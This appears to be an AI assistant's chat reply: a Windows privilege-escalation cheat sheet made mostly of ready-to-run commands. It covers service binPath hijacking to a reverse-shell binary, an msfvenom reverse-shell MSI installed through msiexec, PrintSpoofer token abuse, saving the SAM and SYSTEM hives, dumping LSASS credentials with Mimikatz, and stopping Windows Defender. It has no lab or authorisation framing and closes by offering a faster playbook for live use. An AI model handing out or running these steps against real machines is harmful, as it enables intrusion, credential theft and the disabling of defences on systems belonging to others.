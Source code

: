 ### 1. **Basic Enumeration**

```powershell
whoami /priv
whoami /groups
whoami /all
systeminfo
hostname
echo %USERNAME%
echo %USERDOMAIN%
echo %PROCESSOR_ARCHITECTURE%
```

```powershell
# List hotfixes
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Installed programs
wmic product get name,version
```

---

### 2. **Check for Unquoted Service Paths**

```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
sc qc <servicename>
```

Exploit: Place malicious `.exe` in writable path before the space.

---

### 3. **Weak Service Permissions**

```powershell
accesschk64.exe -uwcqv "Authenticated Users" *
accesschk64.exe -uwcqv "Everyone" *
accesschk64.exe -uwcqv "Users" *
```

Exploit: Replace binary or change service config.

```powershell
sc config <service> binPath= "C:\path\to\rev.exe"
sc stop <service>
sc start <service>
```

---

### 4. **AlwaysInstallElevated (MSI abuse)**

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both = `1`, exploit:

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi > evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

---

### 5. **Registry AutoRun / Autorun Hijacks**

```powershell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Writable keys = persistence + priv escalation.

---

### 6. **Scheduled Tasks**

```powershell
schtasks /query /fo LIST /v
icacls "C:\path\to\task.exe"
```

If writable, replace binary.

---

### 7. **DLL Hijacking**

- Search for services/apps loading DLLs from writable paths:
    

```powershell
procmon.exe   # (filter by PATH NOT FOUND for .dll)
```

- Place malicious DLL.
    

---

### 8. **Hotfix / Kernel Exploits**

Check system info → Google or use **Windows Exploit Suggester**:

```powershell
systeminfo > sysinfo.txt
python windows-exploit-suggester.py --database 2025-08-20-mssb.xls --systeminfo sysinfo.txt
```

---

### 9. **Token Impersonation / SeImpersonatePrivilege**

```powershell
whoami /priv
```

If `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled → juicy.  
Exploit with **PrintSpoofer**:

```powershell
PrintSpoofer64.exe -i -c cmd.exe
```

---

### 10. **Password Hunting**

```powershell
# Registry SAM & SYSTEM
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

# Search for passwords
findstr /si password *.txt *.ini *.xml *.config
```

Common places:

- Unattend.xml (`C:\Windows\Panther\`)
- Group Policy Preference files (`c:\ProgramData\Microsoft\Group Policy\History\`)
- Mimikatz dump creds from LSASS:

```powershell
mimikatz.exe
sekurlsa::logonpasswords
```

---

### 11. **Insecure Services (SYSTEM running user programs)**

```powershell
tasklist /svc
netstat -ano
```

Look for apps running as SYSTEM but writable by user.

---

### 12. **AV & Defender Evasion**

Disable temporarily if perms allow:

```powershell
sc stop WinDefend
```

---

## **Key Tools**

- `winPEAS.exe` → full enumeration
    
- `Seatbelt.exe` → system survey
    
- `Accesschk.exe` → permissions
    
- `Mimikatz` → creds dump
    
- `PrintSpoofer` / `JuicyPotato` / `RoguePotato` → token abuse
    
- `Sherlock.ps1` / `Watson.exe` → vuln checks
    

---

That’s the go-to cheat menu. In practice, you just drop `winPEAS.exe`, run it, and then pivot to the quickest available vuln (service misconfig, token privs, or AlwaysInstallElevated).

Do you want me to condense this into a **step-by-step escalation flow** (like a decision tree: check this → if vuln → exploit, else next)? That’s usually the fastest way to run Windows privesc live.